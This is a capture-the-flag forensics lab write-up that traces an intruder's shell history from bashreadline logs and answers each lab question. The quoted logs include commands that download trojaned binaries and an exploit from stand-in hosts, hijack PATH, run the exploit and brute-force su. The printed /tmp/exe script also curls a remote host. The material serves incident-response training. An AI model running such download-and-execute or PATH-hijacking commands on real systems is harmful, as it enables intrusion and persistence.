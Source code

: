 #### 7. Bashreadline: Trace Analysis

----

Performance monitoring and tracking tools can provide a wealth of information about a running system. In some cases, they can help identify anomalies which could have been caused by a security incident.

----

In this lab, we will analyze [`Bashreadline script's`](https://github.com/iovisor/bcc/blob/master/tools/bashreadline.py) trace logs to unearth suspicious activity. Please start the lab, answer the below questions and submit the flags to verify:

- A suspicious user had logged into the system and had downloaded some files using wget. What is the name of that user?

```sh
root@attackdefense:~# less logs
TIME      PID    COMMAND
23:11:11  75190  apt-get update && apt-get upgrade
23:11:16  75190  ./take-backup.sh
23:11:17  72741  su alice
23:11:17  75190  ./commit-backup.sh
23:11:18  72741  whoami
23:11:18  75190  ./push-backup.sh
23:11:19  72741  mkdir /tmp/.bin/
23:11:20  72741  wget -O /tmp/.bin/ls http://random-url.xyz.local/?getbin=ls
23:11:26  72741  wget -O /tmp/.bin/ps http://random-url.xyz.local/?getbin=ps
23:11:32  72741  wget -O /tmp/.bin/bash http://random-url.xyz.local/?getbin=bash
23:11:37  75190  apt-get install mysql-server
23:11:38  72741  wget -O /tmp/.bin/cd http://random-url.xyz.local/?getbin=cd
23:11:44  72741  wget -O /tmp/.bin/whoami http://random-url.xyz.local/?getbin=whoami
23:11:50  72741  wget -O /tmp/.bin/sudo http://random-url.xyz.local/?getbin=sudo
23:11:56  72741  chmod +x /tmp/.bin/*
23:11:57  72741  echo $PATH
23:11:58  72741  export PATH=/tmp/.bin:$PATH
23:11:59  72741  echo "/tmp/.bin:$PATH" > /etc/environment | sudo tee -a /etc/environment
23:12:02  72741  wget -O /tmp/exe http://random-url.xyz.local/?getexploit=x86-64_16.04_4.15.0-52-
23:12:08  72741  chmod +x /tmp/exe
23:12:09  72741  /tmp/exe
23:12:10  75190  apt-get install git cmake
23:12:11  72741  su ratchel
23:12:11  75190  apt-get autoremove
23:12:12  72741  su ratchel
23:12:12  75190  git init /opt/deployment
23:12:13  72741  su ratchel
23:12:13  75190  cd /opt/deployment
23:12:14  72741  su ratchel
23:12:14  75190  git add *
23:12:15  72741  su ratchel
23:12:15  75190  git status
23:12:16  75190  git commit -m "Major bugfixes -- v3.1.0"
23:12:16  72741  su ratchel
23:12:17  72741  su ratchel
23:12:17  75190  git status
23:12:18  75190  git log
23:12:18  72741  su ratchel
23:12:19  72741  su ratchel
23:12:19  75190  git push remote origin
23:12:20  72741  su ratchel
23:12:20  75190  git status
23:12:20  75190  apt-get install python2.7 python2.7-pip
23:12:21  72741  su ratchel
23:12:21  75190  pip install pycrypto
23:12:22  75190  pip install pycrypto --user
23:12:22  72741  su ratchel
23:12:23  72741  su ratchel
23:12:23  75190  apt-get install dnsutils
23:12:24  72741  su ratchel
23:12:24  75199  apt-get install firefox
23:12:25  72741  su ratchel
23:12:25  75199  apt-get install feh
23:12:26  72741  su ratchel
23:12:26  75190  reset
23:12:27  72741  su ratchel
23:12:27  75190  ifconfig
23:12:28  72741  su ratchel
23:12:28  75190  netstat -antp
23:12:29  72741  su ratchel
23:12:29  75199  firefox stackoverflow.com
23:12:30  72741  su ratchel
logs
```

```sh
root@attackdefense:~# less logs
root@attackdefense:~# less logs
root@attackdefense:~#
root@attackdefense:~#
root@attackdefense:~# grep 72741 logs
23:11:17  72741  su alice
23:11:18  72741  whoami
23:11:19  72741  mkdir /tmp/.bin/
23:11:20  72741  wget -O /tmp/.bin/ls http://random-url.xyz.local/?getbin=ls
23:11:26  72741  wget -O /tmp/.bin/ps http://random-url.xyz.local/?getbin=ps
23:11:32  72741  wget -O /tmp/.bin/bash http://random-url.xyz.local/?getbin=bash
23:11:38  72741  wget -O /tmp/.bin/cd http://random-url.xyz.local/?getbin=cd
23:11:44  72741  wget -O /tmp/.bin/whoami http://random-url.xyz.local/?getbin=whoami
23:11:50  72741  wget -O /tmp/.bin/sudo http://random-url.xyz.local/?getbin=sudo
23:11:56  72741  chmod +x /tmp/.bin/*
23:11:57  72741  echo $PATH
23:11:58  72741  export PATH=/tmp/.bin:$PATH
23:11:59  72741  echo "/tmp/.bin:$PATH" > /etc/environment | sudo tee -a /etc/environment
23:12:02  72741  wget -O /tmp/exe http://random-url.xyz.local/?getexploit=x86-64_16.04_4.15.0-52-
23:12:08  72741  chmod +x /tmp/exe
23:12:09  72741  /tmp/exe
23:12:11  72741  su ratchel
23:12:12  72741  su ratchel
23:12:13  72741  su ratchel
23:12:14  72741  su ratchel
23:12:15  72741  su ratchel
23:12:16  72741  su ratchel
23:12:17  72741  su ratchel
23:12:18  72741  su ratchel
23:12:19  72741  su ratchel
23:12:20  72741  su ratchel
23:12:21  72741  su ratchel
23:12:22  72741  su ratchel
23:12:23  72741  su ratchel
23:12:24  72741  su ratchel
23:12:25  72741  su ratchel
23:12:26  72741  su ratchel
23:12:27  72741  su ratchel
23:12:28  72741  su ratchel
23:12:29  72741  su ratchel
23:12:30  72741  su ratchel
23:12:31  72741  su ratchel
23:12:32  72741  su ratchel
23:12:33  72741  su ratchel
23:12:34  72741  su ratchel
23:12:35  72741  su ratchel
23:12:36  72741  su ratchel
23:12:37  72741  su ratchel
23:12:38  72741  su ratchel
23:12:39  72741  su ratchel
23:12:40  72741  su ratchel
23:12:41  72741  su ratchel
23:12:42  72741  su ratchel
23:12:43  72741  su ratchel
23:12:44  72741  su ratchel
23:12:45  72741  su ratchel
23:12:46  72741  su ratchel
23:12:47  72741  su ratchel
23:12:48  72741  su ratchel
23:12:51  72741  wget -O /tmp/.bin/su http://random-url.xyz.local/?getbin=su
23:12:56  72741  chmod +x /tmp/.bin/su
23:12:57  72741  su ratchel
23:13:00  72741  whoami
23:13:01  72741  passwd
23:13:31  72741  sudo su
23:13:34  72741  modprobe random-dummy-module
23:13:48  72741  exit
root@attackdefense:~#
```

```
alice
```

- The suspicious user prepended a directory to the PATH environment variable. What is the complete path of that directory?

```
# root@attackdefense:~# grep 72741 logs
/tmp/.bin
```

- The suspicious user downloaded some files from a remote machine using wget. What is the domain name of the remote machine?

```
# root@attackdefense:~# grep 72741 logs
random-url.xyz.local
```

- The suspicious user had also downloaded a script from the same remote machine in /tmp directory. That script was executed as soon as it was downloaded. Provide the complete path of that script.

```
# root@attackdefense:~# grep 72741 logs
/tmp/exe
```

- Retrieve the flag from the script downloaded in /tmp directory.

```sh
root@attackdefense:~# grep 72741 logs
```

```sh
root@attackdefense:~# cat /tmp/exe
#!/bin/bash

#FLAG: 72831b53f0bc6f677815a399d3007f12

curl http://another-random-server.dev.local/?execute=true&sys=x86_64&os=ubuntu-16.04-linux
root@attackdefense:~#
```

```
72831b53f0bc6f677815a399d3007f12
```

- The suspicious user broke into another user’s account after a couple of unsuccessful attempts. What is the name of the compromised user?

```
# root@attackdefense:~# grep 72741 logs
ratchel
```

- What is the name of the kernel module loaded by the suspicious user?

```
# root@attackdefense:~# grep 72741 logs
random-dummy-module
```

----

###### Reference

- [Bashreadline script](https://github.com/iovisor/bcc/blob/master/tools/bashreadline.py)
- [Bashreadline Examples]
(https://github.com/iovisor/bcc/blob/master/tools/bashreadline_example.txt)
- [BCC Tools](https://github.com/iovisor/bcc)

EOF